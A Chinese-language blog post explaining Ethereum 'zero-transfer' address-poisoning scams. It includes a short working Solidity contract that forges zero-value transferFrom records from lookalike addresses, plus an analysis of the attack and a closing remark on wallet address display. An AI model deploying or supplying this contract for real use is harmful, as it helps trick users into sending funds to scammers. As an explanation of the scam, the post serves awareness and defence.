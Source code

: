 # 写一个 0 转账攻击合约

## 备注

时间：2024 年 7 月 7 日

作者：[33357](https://github.com/33357)

## 正文

以太坊上有大量转账 Token 数量为 0 的合约，比如这个 https://etherscan.io/address/0x6c5319df4fcca5961d71e117287c76a1f2aad593 。这些合约伪造了首尾相同的地址向用户地址转账，利用了有些人会在转账之前复制上一个地址的习惯来骗取用户资产。这里我写了一个类似功能的合约。

## 合约代码

```javascript
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.25;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ZeroTransferAttack {
    function bacthTransferFrom(
        address[] memory tokenList,
        address[] memory fromList,
        address[] memory toList
    ) external {
        for (uint256 i; i < tokenList.length; i++) {
            IERC20(tokenList[i]).transferFrom(fromList[i], toList[i], 0);
        }
    }
}
```

很多人会奇怪，没有经过 `approve` 也能调用 `transferFrom` 吗？

是的，由于 `ERC20` 合约的 `transferFrom` 方法接受数量为 `0` 的调用，而没有授权的状态就是 `0`。因此没有经过 `approve` 授权也可以调用 `transferFrom` 生成转账记录，这大大降低了进行数量为 0 转账的操作成本。

```javascript
function transferFrom(
    address sender,
    address recipient,
    uint256 amount
) public virtual override returns (bool) {
    _transfer(sender, recipient, amount);

    uint256 currentAllowance = _allowances[sender][_msgSender()];
    require(
      currentAllowance >= amount,
      "ERC20: transfer amount exceeds allowance"
    );
    _approve(sender, _msgSender(), currentAllowance - amount);

    return true;
}
```

## 攻击分析

可以看到合约是很简单的，做数量为 0 转账攻击的门槛不在于此，而是对链上交易数据的爬取和计算首尾相同地址私钥。这需要完整的链上数据收集和分析，并配上有强大的 hash 计算能力。

当一个地址发起一笔转账后可以跟踪并迅速计算出首尾相同地址的私钥，调用 `transferFrom` 生成一笔发起人首尾地址相同、目标地址一样、转账时间相近的记录。如果用惯了传统的金融 APP，对复制上一个交易没有警惕性，就很容易会上这种当。

## 总结

很多 APP 为了方便用户简化了地址显示，一定程度上也给了骗子可趁之机。市场也许需要一个既方便用户，又具有唯一性的地址显示方式。